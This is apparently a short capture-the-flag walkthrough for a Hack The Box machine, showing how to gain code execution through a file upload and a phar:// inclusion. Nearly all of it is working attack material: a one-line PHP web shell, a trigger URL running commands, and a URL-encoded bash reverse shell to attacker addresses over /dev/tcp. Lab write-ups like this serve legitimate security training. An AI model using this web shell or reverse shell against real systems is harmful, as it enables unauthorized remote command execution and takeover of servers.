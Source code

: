 **STEP 1** 
	Create a PHP file(test.php) with below code.
```
	<?php system($_GET["cmd"]); ?>
```

**\STEP 2**
	Create zip of test.php (test.zip)

**STEP 3**
	Upload it and then trigger it with url.
	**Example** : 
	`http://itrc.ssg.htb/?page=phar://uploads/test.zip/test&cmd=whoami`

**STEP 4**
	1. To get reverse shell can replace the `whoami` with `/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.4/4444 0>&1'` and doing url encode key character.
	   **Example:**	   `phar://uploads/379a3979995fa3ca58443f88150ec2fb629609fa.zip/test1&cmd=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.81/1111+0>%261'`
	   ![[Pasted image 20240904165018.png]]
